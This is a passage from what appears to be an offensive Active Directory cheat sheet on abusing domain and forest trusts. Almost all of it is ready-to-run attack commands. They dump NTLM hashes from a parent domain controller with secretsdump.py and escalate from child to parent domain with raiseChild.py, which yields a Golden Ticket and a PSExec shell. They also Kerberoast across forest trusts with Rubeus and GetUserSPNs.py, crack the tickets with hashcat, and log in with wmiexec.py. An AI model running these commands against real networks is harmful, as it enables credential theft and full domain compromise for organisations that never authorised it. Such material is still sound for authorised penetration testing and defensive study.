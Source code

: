 ```bash
secretsdump.py FAKE-USER@PARENT-DC.PARENT-DOMAIN.LOCAL -k -no-pass -just-dc-ntlm -just-dc-user <username>
```

#### Method 2: Automated with raiseChild.py

```bash
# One-command escalation
raiseChild.py -target-exec <PARENT_DC_IP> CHILD-DOMAIN.LOCAL/ADMIN

# Automatically performs:
# 1. Gets Enterprise Admin SID
# 2. Extracts KRBTGT credentials  
# 3. Creates Golden Ticket
# 4. Retrieves parent domain Administrator credentials
# 5. Launches PSExec shell
```

---

## Cross-Forest Trust Attacks

### Attack Overview

Cross-forest trust abuse leverages bidirectional forest trusts to perform attacks across domain boundaries. Effective when:
- Bidirectional forest trusts exist between organizations
- Same administrative teams manage both forests
- SID filtering is disabled or misconfigured

### Cross-Forest Kerberoasting

#### Windows Method

```powershell
# 1. Enumerate SPNs in trusted domain
Get-DomainUser -SPN -Domain TRUSTED-DOMAIN.LOCAL | select SamAccountName

# 2. Check target account privileges
Get-DomainUser -Domain TRUSTED-DOMAIN.LOCAL -Identity TARGET-SPN-USER | select samaccountname,memberof

# 3. Perform cross-forest Kerberoasting
.\Rubeus.exe kerberoast /domain:TRUSTED-DOMAIN.LOCAL /user:TARGET-SPN-USER /nowrap

# 4. Crack hash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

#### Linux Method

```bash
# 1. Enumerate SPNs across forest trust
GetUserSPNs.py -target-domain TRUSTED-DOMAIN.LOCAL CURRENT-DOMAIN.LOCAL/USERNAME

# 2. Request TGS tickets
GetUserSPNs.py -request -target-domain TRUSTED-DOMAIN.LOCAL CURRENT-DOMAIN.LOCAL/USERNAME -outputfile trusted_domain_tgs.txt

# 3. Crack hash
hashcat -m 13100 trusted_domain_tgs.txt /usr/share/wordlists/rockyou.txt

# 4. Log in to the target
python3 wmiexec.py TARGET-DOMAIN/<user>:<password>@DC-NAME.TARGET-DOMAIN.LOCAL
```
